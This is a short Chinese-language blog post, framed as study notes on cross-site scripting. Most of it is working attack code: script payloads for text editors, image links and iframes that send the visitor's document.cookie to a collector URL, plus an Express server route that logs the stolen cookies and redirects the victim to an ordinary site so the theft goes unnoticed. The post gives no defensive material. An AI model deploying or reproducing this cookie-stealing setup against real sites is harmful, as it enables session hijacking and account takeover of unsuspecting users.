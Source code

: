 ```yaml
---
title: 理解学习跨站脚本攻击原理
date: '2018-07-12T17:18:40+00:00'
status: publish
permalink: /2018/07/12/%e7%90%86%e8%a7%a3%e5%ad%a6%e4%b9%a0%e8%b7%a8%e7%ab%99%e8%84%9a%e6%9c%ac%e6%94%bb%e5%87%bb%e5%8e%9f%e7%90%86
author: 毛巳煜
excerpt: ''
type: post
id: 2218
category:
    - 网络基础
tag: []
post_format: []
hestia_layout_select:
    - default
---
```

### XSS

#### 针对 markdown textarea 等 文本编辑器

```javascript
<script>
(function() { alert(document.cookie)})()
</script>

```

#### 针对 图片src 或者事有超链接的做法

```javascript
// 点击打开的图片, 会触发脚本
<script>
var img = document.createElement('img');
img.src = 'http://www.private-blog.com/wp-content/uploads/2017/11/fa37d627538d082e52b4351f1e6bb7a6.jpg';
var a = document.createElement('a');
a.href =  'http://localhost:8888/db/insert?data=' + document.cookie;
a.append(img);
document.body.append(a);
</script>

```

#### 针对 iframe 的src属性 进行获取数据

```javascript
<script>
var iframe = document.createElement('iframe');
iframe.src = 'http://localhost:8888/db/insert?data=' + document.cookie;
document.body.append(iframe);
</script>

```

#### 对应的服务器端写法

```javascript
const express = require('express');
const router = express.Router();
/**
 * 获取请求的数据
 * x-www-form-urlencoded
 */
router.get('/db/insert/', (req, res) => {
    // 获取传入的数据
    let params = req.query;
    console.log(params);
     // 将这次的请求重定向 到 正常的请求URL, 避免使用者察觉
    res.redirect('http://www.baidu.com');
});
module.exports = router;

```

###### 学习中持续分享..........